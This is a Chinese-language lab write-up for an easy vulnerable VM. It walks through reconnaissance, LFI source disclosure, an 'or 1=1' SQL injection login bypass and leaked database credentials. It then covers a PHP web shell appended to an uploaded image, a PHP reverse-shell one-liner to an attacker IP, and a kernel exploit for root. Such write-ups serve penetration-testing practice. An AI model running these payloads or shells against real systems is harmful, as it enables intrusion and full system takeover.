 
## 靶机信息
- 级别:容易

## Recon

### nmap

```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.160

sudo nmap -sT --min-rate 10000 -p- 192.168.1.160 -oA ./ports
//ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## Web
![[Pasted image 20231018122804.png]]

### 目录爆破
```shell
gobuster dir -u http://192.168.1.160 -w /usr/share/wordlists/dirb/common.txt
/test

'file' parameter is empty. Please provide file path in 'file' parameter 
//用post方式发送file=/etc/passwd得到了passwd文件
```
### LFI
```shell
curl -X POST -d file=./index.php http://192.168.1.160/test >> index.php  //读取源码
//
$uname=str_replace('\'','',urldecode($_POST['un']));
        $pass=str_replace('\'','',urldecode($_POST['ps']));
        $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
select * from auth where  pass=\'' Or 1=1 -- \'\'

输入 or 1=1 -- \即可绕过
elect * from auth where  pass=\'' or 1=1 -- '\'
```

或者通过LFI看到c.php的源码，得到数据库的凭据，登录phpmy之后ica_lab->auth下看到登录用户名密码

```shell
biLLu,hEx_it //登录web
```

## Web
![[Pasted image 20231018144134.png]]
看到一个上传文件的位置

![[Pasted image 20231018144400.png]]

### 目录爆破
```shell
gobuster dir -u http://192.168.1.160 -w /usr/share/wordlists/dirb/common.txt -x php
/c.php                (Status: 200) [Size: 1]
/phpmy
curl -X POST --data file=./c.php http://192.168.1.160/test > c.php
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab"); //得到myqsl的链接密码
```



### 图片木马
```php
wget http://192.168.1.160/uploaded_images/jack.jpg 
echo '<?php @eval($_GET['cmd']); ?>' >> jack.jpg
mv jack.jpg jac.jpg //防止重名
// <?php @eval($_GET['cmd']); ?>

/panel 通过LFI查看源码得知对文件可以进行包含
```

![[Pasted image 20231018152526.png]]
将load改为图片马的位置

![[Pasted image 20231018155613.png]]
```php
<?php system($_GET['read']); ?>
//多尝试

执行php反弹shell
php -r '$sock=fsockopen("192.168.1.136",1234);exec("/bin/sh -i <&3 >&3 2>&3");' // 要url编码一下
```

![[Pasted image 20231018160248.png]]



## 内核提权

```shell
searchsploit linux kernel 3.13
searchsploit -m 37292.c
./37292
```

![[Pasted image 20231018164417.png]]
